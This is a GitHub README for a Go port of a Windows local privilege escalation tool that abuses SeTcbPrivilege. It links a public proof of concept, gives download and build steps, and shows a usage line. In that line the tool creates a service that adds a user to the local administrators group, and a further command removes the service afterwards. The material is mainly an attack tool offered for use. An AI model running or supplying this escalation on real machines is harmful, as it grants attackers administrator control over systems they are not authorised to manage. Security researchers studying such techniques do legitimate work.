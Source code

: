 # SeTcbPrivilege Local Privilege Escalation

This repository contains a **Go** port of a local privilege escalation technique involving the **SeTcbPrivilege**. The original proof-of-concept is available at https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178.

## Download

https://github.com/CharminDoge/tcb-lpe/releases/latest

## Usage

The following will create and start a service called "AAATcb" that will execute the provided command.
```batch
.\tcb.exe "C:\Windows\system32\cmd.exe /c net localgroup administrators tcb_user /add"
```

The service is deleted automatically after program execution. To delete it manually, you can use the "clean" command.
```batch
.\tcb.exe clean
```

## Build

```bash
git clone https://github.com/CharminDoge/tcb-lpe.git
cd tcb-lpe
make
```
